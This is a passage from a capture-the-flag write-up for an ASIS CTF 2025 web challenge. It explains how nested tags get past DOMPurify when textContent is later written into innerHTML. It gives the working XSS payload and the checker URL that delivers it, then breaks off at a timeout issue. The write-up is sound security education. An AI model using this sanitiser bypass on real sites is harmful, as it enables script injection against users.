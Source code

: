 ```javascript
document.getElementById("msg_url").textContent
// "
//     I'm in the p tag!
//     I'm in the p tag's i tag!
// " 
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/ASIS-CTF-Quals-2025/images/Pasted%20image%2020250909153058.png)

As we can see, the tags are gone, only the text content is in here!

Therefore, we can inject the following payload to achieve XSS:

```html
<<i>img src onerror=alert(origin)</i>>
```

The `textContent`'s value of element `msg_url` will be this:

```javascript
document.getElementById("msg_url").textContent
// "<img src onerror=alert(origin)>"
```

You might ask: Shouldn't DOMPurify sanitize and strip it out?

Well, nope, because `<`, `img src onerror=alert(origin)`, and `>` are just text. Why would DOMPurify sanitize it? :D

> Note: Since the sink is `innerHTML`, it [prevents `<script>` elements from executing when they are inserted](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations). So, we'll need to use other elements and the event listeners, such as `onerror`.

Now, let's try our payload!

```html
/checker?url=http://<<i>img src onerror=alert(origin)</i>>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/ASIS-CTF-Quals-2025/images/Pasted%20image%2020250909154216.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/ASIS-CTF-Quals-2025/images/Pasted%20image%2020250909154220.png)

Wait, why it doesn't work?

Well, did you remember the 8 seconds timeout?

```javascript
async function main() {
  [...]
  if(url) {
    setTimeout(() => {
      somethingWentWrong();
    }, 8000);
    [...]
  } else {
    [...]
  }
}
```
